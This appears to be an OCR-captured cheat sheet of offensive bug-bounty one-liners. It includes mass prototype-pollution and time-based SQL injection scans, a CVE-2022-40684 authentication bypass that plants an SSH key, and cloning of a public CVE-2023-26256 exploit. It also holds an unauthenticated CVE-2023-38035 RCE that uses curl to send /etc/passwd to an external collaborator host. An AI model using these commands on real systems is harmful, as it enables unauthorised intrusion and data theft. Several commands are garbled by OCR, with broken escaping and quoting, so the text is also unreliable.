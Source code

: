 ## Extract Endpoints from JavaScript
cat FILE.js | grep -oh "\\\\\\\\"\\\\\\\\/[a-zA-Z0-9_/?=&]&\\\\\\\\""| sed -e 's/^"//' -e 's/"$//' | sort -u

## Get CIDR & Org Information from Target Lists
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\\\\\\\\|Organization" | tr -s " | paste -; done | uniq); done
"
## Prototype Pollution
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\\\\\\\\/?_proto_[testparam]=exploit\\\\\\\\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
'
# Sitemap SQL Injection
cat urls.txt | httpx -silent -path 'sitemap.xml?offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10'

# Authentication Bypass (CVE-2022-40684) POC --> <https://twitter.com/h4x0r_dz/status/1580648642750296064/photo/1>
ffuf -w "host_list.txt:URL" -u "<https://URL/api/v2/cmdb/system/admin/admin>" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r

## CVE-2023-26256 -> <https://github.com/aodsec/CVE-2023-26256>
git clone <https://github.com/aodsec/CVE-2023-26256.git>
python3 CVE-2023-26256.py -h

# CVE-2023-38035 - Unauth. RCE
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd [BURP-COLLABORATOR-URL.com](https://burp-collaborator-url.com/)', 'isRoot': True}, None)"

# Quick Port Scanning with Fuzzing
cat ips.txt|naabu -silent -tp 1000 -o top1k.txt;cat top1k.txt|grep -vE ':80|:443' | httpx -silent -fc 400,503,204,405 -o httpx.txt;cat httpx.txt|python3 [dirsearch.py](https://dirsearch.py/) --stdin -e '*' -t 60 -w onelistforall.txt -i 200,301,302 --format plain -o report.txt

# SSRF use Autorize Exxtension Match and replace 
https?://(www.)?[-a-zA-Z0–9@:%.+~#=]{1,256}.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%+.~#?&//=]*)

